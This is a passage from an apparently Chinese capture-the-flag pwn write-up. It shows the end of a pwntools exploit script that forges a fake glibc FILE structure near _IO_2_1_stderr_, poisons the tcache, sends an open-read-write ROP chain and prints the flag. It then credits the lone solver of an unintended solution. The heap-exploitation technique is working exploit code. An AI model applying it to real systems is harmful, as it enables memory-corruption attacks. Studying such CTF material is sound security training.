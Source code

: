 ```
    fake_file += b"\x00" 
    fake_file += b"\n" 
    fake_file += p32(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stderr_'] + 0x1ef0) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p64(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stderr_'] - 0xe40) 
    fake_file += p64(0) * 3 
    fake_file += p32(0xFFFFFFFF) 
    fake_file += b"\x00" * 19 
    fake_file = fake_file.ljust(0xD8,b'\x00') 
    fake_file += p64(libc_base + 0x1e2550) 
    log.success("construction complete")

    log.info("start tcache poisoning...")
    edit(2, b"\x07\x00" * 64 + p64(0) * 15 + p64(libc_base + libc.sym['_IO_2_1_stderr_']))
    new(0x100) 
    edit(3, fake_file)
    edit(2, b"\x07\x00" * 64 + p64(0) * 15 + p64(libc_base + 0x1e2550 + 0x10))

    new(0x100) 
    edit(4, p64(libc_base + 0x14A0A0) * 2)
    log.success("tcache poisoning complete")

    log.info("start sending the orw rop chain...")

    cmd(5)
    sleep(1)
    p.sendline(orw)
    log.success("orw rop chain has been sent")
    log.info("start getting the flag...")
    p.recvuntil(b"THERE'S NO DOUBT THAT YOU ARE THINKING ABOUT PEACH!\n")
    log.success("flag received: ")
    print(p.recvuntil(b'}').decode())
    p.recv()
    p.interactive()

if __name__ == '__main__':
    exp() 
```

### 非预期：

影二つ师傅， 本场比赛中唯一的解：

![image.png](img/3693e24155f00c4398aead5c46fae920.png)
